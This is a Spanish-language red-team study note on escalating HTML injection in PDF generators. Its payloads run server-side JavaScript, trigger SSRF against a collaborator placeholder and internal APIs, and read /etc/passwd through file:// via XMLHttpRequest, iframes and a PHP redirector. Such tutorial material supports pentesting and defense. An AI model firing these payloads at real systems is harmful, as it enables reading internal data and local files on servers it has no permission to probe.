

---
tags:
  - Web/Red-Team
  - PDF-Injection
  - Pentesting/Explotacion
Descripción: "La HTML injection en un generador de PDF escala a tres impactos según lo que permita el motor: ejecución de JavaScript (server-side), SSRF y LFI. Se prueban en ese orden porque…"
Fecha de actualización: 2026-07-16
Nota previa: "[[01 - Detección y fingerprinting de generadores de PDF]]"
Nota siguiente: "[[03 - Arsenal de herramientas para PDF Injection]]"
Area: "[[PDF Injection.base|PDF Injection]]"
---
---

La HTML injection en un generador de PDF escala a tres impactos según lo que permita el motor: **ejecución de JavaScript** (server-side), **SSRF** y **LFI**. Se prueban en ese orden porque cada uno habilita al siguiente.

# Ejecución de JavaScript (Server-Side XSS)

Primero se confirma que el HTML se interpreta (una etiqueta `<b>test</b>` sale en negrita, no literal). Después, si el motor es un navegador (wkhtmltopdf/WebKit), se prueba la ejecución de JS:

```html
<script>document.write('test1')</script>
```

Si `test1` aparece en el PDF, <mark style="background: #FFB86CA6;">el backend ejecutó nuestro JavaScript</mark>. Un primer abuso es filtrar la ruta local donde el motor procesa el HTML:

```html
<script>document.write(window.location)</script>
```

```text
file:///var/www/html/secretfolder/tmp_wkhtmlto_pdf_3CxtnJ.html
```

> [!success]+
> Ver una ruta `file://` en el PDF confirma dos cosas: que el JS se ejecuta **en el servidor** y la ruta de trabajo del generador — información de partida para LFI. A partir de aquí, JS abre la puerta a SSRF y lectura de ficheros.

# Server-Side Request Forgery (SSRF)

Como el motor descarga los recursos del HTML, cualquier etiqueta que pida una URL genera una petición desde el servidor. `` y `<link>` producen **SSRF ciega** (la respuesta no se muestra); `<iframe>` produce **SSRF completa** (la respuesta se renderiza en el PDF):

```html

<link rel="stylesheet" href="http://COLLABORATOR/ssrftest2">
<iframe src="http://COLLABORATOR/ssrftest3"></iframe>
```

Con un dominio de [Interactsh](https://app.interactsh.com/) o Burp Collaborator se confirma el OOB. La verdadera potencia es apuntar a servicios **internos** y volcar su respuesta en el PDF:

```html
<iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>
```

<mark style="background: #FFB86CA6;">El PDF generado contiene la respuesta de la API interna</mark> —usuarios, hashes—, convirtiendo una factura en un lector de la red interna. Para explotación avanzada de este SSRF (metadatos cloud, gopher, etc.), ver [[03 - Explotación de SSRF]].

# Local File Inclusion (LFI)

## Con ejecución de JavaScript

Si el JS corre, se leen ficheros locales con `XMLHttpRequest` y el esquema `file://`:

```html
<script>
x = new XMLHttpRequest();
x.onload = function(){ document.write(this.responseText) };
x.open("GET", "file:///etc/passwd");
x.send();
</script>
```

> [!warning]+ Copiar datos del PDF puede corromperlos
> Para ficheros binarios o grandes, copiar el texto crudo del PDF rompe el contenido. La solución es <mark style="background: #8000E1A6;">codificar en base64 con `btoa()`</mark> y trocear en líneas para que quepan en la página, y luego decodificar en [CyberChef](https://gchq.github.io/CyberChef/):

```html
<script>
function addNewlines(str){ var r=''; while(str.length>0){ r+=str.substring(0,100)+'\n'; str=str.substring(100) } return r }
x = new XMLHttpRequest();
x.onload = function(){ document.write(addNewlines(btoa(this.responseText))) };
x.open("GET", "file:///etc/passwd");
x.send();
</script>
```

## Sin ejecución de JavaScript

Si el motor no ejecuta JS, se usan etiquetas que embeben ficheros:

```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500"></object>
```

Algunos motores muestran el `iframe` con `file://` vacío. <mark style="background: #FF5582A6;">El truco que lo desbloquea: combinar SSRF + redirección</mark>. Se levanta un redirector propio que responde con una cabecera `Location: file://`:

```php
<?php header("Location: file://" . $_GET['url']); ?>
```

Y se inyecta un `iframe` apuntando a él; el motor sigue la redirección hasta el `file://`:

```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

# La cadena de escalada, de un vistazo



> [!important]+ La cadena de escalada
> HTML injection → JS server-side → `window.location` (ruta) → SSRF (`<iframe>` a servicios internos) → LFI (`file://` directo o vía redirector). <mark style="background: #8000E1A6;">Según la librería y su versión</mark> ([[01 - Detección y fingerprinting de generadores de PDF|fingerprint primero]]), el techo puede ser incluso RCE (DomPDF con `@font-face`, CVE-2022-28368). Las herramientas para automatizar y las defensas, a continuación.
